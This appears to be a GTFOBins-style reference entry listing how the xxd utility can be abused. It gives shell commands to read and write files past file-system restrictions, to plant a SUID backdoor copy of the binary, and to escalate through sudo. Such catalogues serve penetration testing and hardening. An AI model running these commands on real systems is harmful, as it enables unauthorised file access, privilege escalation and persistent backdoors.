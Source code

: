 # GTFOBin: xxd

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_write
echo DATA | xxd | xxd -r - "$LFILE"
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
xxd "$LFILE" | xxd -r
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which xxd) .

LFILE=file_to_read
./xxd "$LFILE" | xxd -r
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo xxd "$LFILE" | xxd -r
```
